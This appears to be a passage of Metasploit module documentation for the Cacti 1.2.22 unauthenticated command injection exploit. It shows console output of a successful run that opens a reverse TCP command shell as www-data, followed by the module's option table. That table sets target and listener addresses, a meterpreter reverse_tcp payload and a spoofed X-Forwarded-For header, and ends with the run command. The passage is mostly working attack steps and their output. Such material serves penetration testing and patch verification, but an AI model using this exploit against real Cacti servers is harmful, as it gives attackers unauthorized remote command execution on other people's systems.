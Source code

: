 ```
[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Executing the payload. This may take a few seconds...
[*] Command shell session 1 opened (192.168.91.195:4444 -> 10.18.0.3:50802) at 2022-12-22 16:51:46 +0200

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Cacti 1.2.22 - Linux Dropper - HOST_ID and LOCAL_DATA_ID not set (bruteforce with undetermined result, then manual exploitation)
```
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   HOST_ID                              no        The host_id value to use. By default, the module will try to bruteforce this.
   LOCAL_DATA_ID                        no        The local_data_id value to use. By default, the module will try to bruteforce this.
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS              192.168.91.195   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT               8080             yes       The target port (TCP)
   SRVHOST             192.168.91.195   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                                  resses.
   SRVPORT             9090             yes       The local port to listen on.
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI           /                yes       The base path to Cacti
   URIPATH                              no        The URI to use for this exploit (default is random)
   VHOST                                no        HTTP server virtual host
   X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwared-For HTTP header. This should be resolvable to a hostname in the poller table.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.91.195   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run
```